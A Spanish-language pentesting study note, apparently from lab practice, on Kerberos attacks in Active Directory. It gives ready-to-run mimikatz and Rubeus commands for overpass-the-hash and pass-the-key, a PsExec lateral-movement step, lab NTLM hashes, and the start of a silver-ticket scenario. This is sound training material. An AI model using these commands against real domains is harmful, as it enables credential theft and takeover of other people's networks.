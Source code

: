 ### Utilizar el TGT
```
rubeus.exe asktgs /ticket:<TGT.kirbi> /service:<service>/<host>
```

### En un solo paso 
#### Con `mimikatz`
Este comando realiza un **OverPass-the-Hash**. Utiliza el hash NTLM (`RC4_HMAC`) para generar credenciales Kerberos, las inyecta en LSASS, y abre un `cmd.exe` autenticado como el usuario objetivo.
```powershell
.\mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:powershell.exe" exit
```
- Esto nos creará una sesión que nos permitirá ejecutar comandos como el usuario al que hemos suplantado (ojo: `whoami` mostraría que somos el usuario que ha iniciado esta conexión, ya que esta utilidad solo comprueba el proceso actual y no los tickets kerberos). Podemos conectarnos ahora en otro sistema con `psexec` como si fueramos el usuario que hemos suplantado del siguiente modo, ya que tenemos caragado el ticket tgt en memoria: 
	```powershell
	.\PsExec64.exe \\files04 cmd
	```
#### Con `rubeus`
Similar al comando anterior
```cmd-session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

## Pass the key

`sekurlsa::logonpasswords` **solo muestra el hash NTLM** pero **no las claves AES**, lo que hace que el OPTH falle en dominios donde NTLM no es suficiente. Este ataque es muy similar al ataque over pass the hash, solo que en vez de utilizar el hash NTLM, utiliza una clave **clave AES-256 o AES-128** para autenticarse en Kerberos. 
### Extraer Kerberos Keys
#### Mimikatz
```
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```

Con las claves extraídas [[Credenciales en Windows#OverPass-the-Hash#Generar un TGT| hacer un ataque como en overpass the hash]]

## Silver ticket (Ataque TGS)
Se ve muy bien explicado un ataque de este tipo en la máquina [Nagoya](https://medium.com/@0xrave/nagoya-proving-grounds-practice-walkthrough-active-directory-bef41999b46f) de PG
Ejemplo de escenario en el que tiene sentido usar un ticket de este tipo. Supongamos que tenemos credenciales válidas para un servicio SPN sobre el que hemos hecho kerberoasting (ej: `svc_sql:Password123!`) y conseguimos acceso al servicio **MSSQL** desde Kali usando **autenticación Windows (`--windows-auth`)**:
```bash
impacket-mssqlclient dominio.local/svc_sql@192.168.1.100 -windows-auth
```
Si ahora intentamos ejecutar algún comando tipo `execute xp_cmdshell` no podemos. Esto puede ser normal, ya que puede que al usuario `svc_sql` no se le hayan concedido estos permisos
